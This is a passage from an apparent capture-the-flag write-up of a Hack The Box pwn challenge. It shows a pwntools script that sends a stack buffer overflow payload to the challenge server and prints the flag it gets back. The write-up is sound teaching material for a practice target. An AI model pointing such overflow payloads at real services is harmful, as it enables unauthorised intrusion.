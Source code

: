 ```py
# Open connection
IP   = '165.232.108.249' # Change this
PORT = 31475      # Change this

r    = remote(IP, PORT)

# Craft payload
payload = b'A' * 32 + b'B' * 8# Change the number of "A"s

# Send payload
r.sendline(payload)

# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```

**Then run it:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:33:28(HKT)]
└> python3 ./wrapper.py
[+] Opening connection to 165.232.108.249 on port 31475: Done
[+] Flag --> HTB{b0f_s33m5_3z_r1ght?}
[*] Closed connection to 165.232.108.249 port 31475
```

We got the flag!

- **Flag: `HTB{b0f_s33m5_3z_r1ght?}`**

## Conclusion

What we've learned:

1. Basic Stack Buffer Overflow